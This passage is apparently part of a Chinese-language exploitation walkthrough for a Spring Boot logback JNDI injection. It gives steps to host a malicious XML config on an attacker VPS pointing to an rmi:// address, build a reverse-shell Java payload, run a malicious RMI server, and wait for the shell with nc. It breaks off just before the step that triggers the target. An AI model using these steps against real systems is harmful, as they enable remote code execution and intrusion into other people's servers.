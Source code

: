 **步骤二：托管 xml 文件**

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server
# 也可以开启apache或者nginx的http服务将其放在根目录下

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```



在根目录放置以 `xml` 结尾的 `example.xml`  文件，内容如下：

```xml
<configuration>
  <insertFromJNDI env-entry-name="rmi://your-vps-ip:port/jndi" as="appName" />
</configuration>
```



**步骤三：准备要执行的 Java 代码**

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`，

使用Maven对其进行编译打包：

```bash
mvn clean install
```

**然后将生成的** jar包拷贝到 **步骤二** 中的网站根目录。



**步骤四：架设恶意 RMI 服务**

设置RMI服务的ip地址和开启服务端口8090

```bash
java -Djava.rmi.server.hostname=x.x.x.x -jar RMIServer-0.1.0.jar
```



**步骤五：监听反弹 shell 的端口**

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvvp 监听端口
```



**步骤六：从外部 URL 地址加载日志配置文件**

> ⚠️ 如果目标成功请求了example.xml 并且 marshalsec 也接收到了目标请求，但是目标没有请求 JNDIObject.class，大概率是因为目标环境的 jdk 版本太高，导致 JNDI 利用失败。

替换实际的 your-vps-ip 地址访问 URL 触发漏洞：
